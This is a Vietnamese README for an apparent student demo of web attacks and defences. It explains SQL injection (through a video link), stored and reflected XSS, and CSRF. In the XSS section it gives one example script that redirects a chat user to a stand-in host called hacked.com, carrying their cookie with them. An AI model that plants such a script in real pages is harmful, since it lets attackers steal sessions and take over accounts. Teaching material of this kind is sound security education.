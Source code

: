 # Demo Tấn Công & Phòng Thủ Bảo Mật Thông Tin
## :heart:Phương pháp tấn công :heart:
### SQL Injection
Link Video :link: https://www.youtube.com/watch?v=QIh769LrcZ0 <br>
### XSS (Cross-Site-Scripting)
**Thường có 2 loại XSS:** Storage XSS & Reflected XSS (ngoài ra có DOM-BASE XSS tham khảo thêm trên Hacksplaning.com) <br>
Loại Storage XSS thì nguy hiểm hơn vì người dùng nếu truy cập vào trang đã bị hack thì sẽ bị hack ngay. Còn Reflected XSS thì khi người dùng click vào mới bị hack.<br>
**XSS** là dạng tấn công bằng cách chèn(inject) đoạn code Javascript vào trang web. Các trang web thường có những form hay textbox để nhập thông tin, thay vì nhập thông tin hay chat
bình thường thì hacker viết đoạn script vào đó (đoạn script có thể đính kèm cookie). Từ đó người dùng vào trang web có thể bị dẫn đến 1 trang web khác, hoặc tự động down file gì
đó về máy chưa virus, hoặc alert ra thông báo gì đó..v..v <br>
Vd: Khi 2 người chat với nhau qua app nào đó. Hacker nhập 1 đoạn script vào ô chat:<br> <script>window.location = 'hacked.com?cookie='+document.cookie</script> <br>
Đoạn script này được lưu vào database **(Storage XSS)** rồi hiển thị lên, bên kia người dùng bị đẫn đến trang hacked.com và kèm theo cookie của họ. Bên đây hacker đã lấy đc cookie của bạn được gửi lên server hacker, từ đó hacker có thể đăng nhập vào tài khoản của bạn.<br>
**Reflected XSS:** hay tấn công bằng URL, một số trang HTML có 1 số thông tin hiển thị gì thì trên Url cái đuôi(URI) nó hiển thị theo cái đó. Hacker dựa vào đây tạo 1 đường link
lôi cuốn người dùng click vào, đường link này direct sang trang HTML khác, trang đó có chứa đoạn script lấy đi cookie của người dùng.
### CSRF (Cross-Site-Request-Forgery)
Là một dáng tấn công bằng cách dùng trang web của hacker tạo ra, giả danh một request tới trang web muốn hack(có cookie), trang web đó sẽ tưởng là request của người dùng của mình và trả lại thông tin dựa theo nội dung của người dùng request.<br>
Vd: Hacker tạo ra một trang web dụ dỗ bạn click vào gì đó, bản chất bên dưới nó là 1 cái form, form này có action="link tới trang web muốn hack" method="POST" content là nội dung bạn muốn hiển thị lên trang muốn hack,
 nội dung này đính kèm thêm cái link tiếp tục lại quá trình click vào link và post thêm 1 link mới lên trang muốn hack (Spreading Sworm)
